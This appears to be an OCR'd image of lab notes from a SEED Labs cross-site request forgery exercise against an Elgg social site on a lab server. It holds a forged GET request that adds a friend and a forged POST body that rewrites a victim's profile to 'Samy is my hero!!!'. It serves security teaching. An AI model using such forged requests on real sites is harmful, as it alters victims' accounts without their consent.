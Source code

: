 # CSRF using GET request
get request: http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1648491568&__elgg_token=h7S7iJMEC-ZpTk_GBxHd9w&__elgg_ts=1648491563&__elgg_token=T3acTCNhdM7Y3u9QMCZ9yQ
# CSRF using POST request
__elgg_token=RlykZLhnfyQp_DiNAiEITA&__elgg_ts=1648494025
&name=Samy
&description=<p>Samy is my hero!!!</p> 
&accesslevel[description]=2
&briefdescription=
&accesslevel[briefdescription]=2
&location=
&accesslevel[location]=2
&interests=
&accesslevel[interests]=2
&skills=
&accesslevel[skills]=2
&contactemail=
&accesslevel[contactemail]=2
&phone=
&accesslevel[phone]=2
&mobile=
&accesslevel[mobile]=2
&website=
&accesslevel[website]=2
&twitter=
&accesslevel[twitter]=2
&guid=59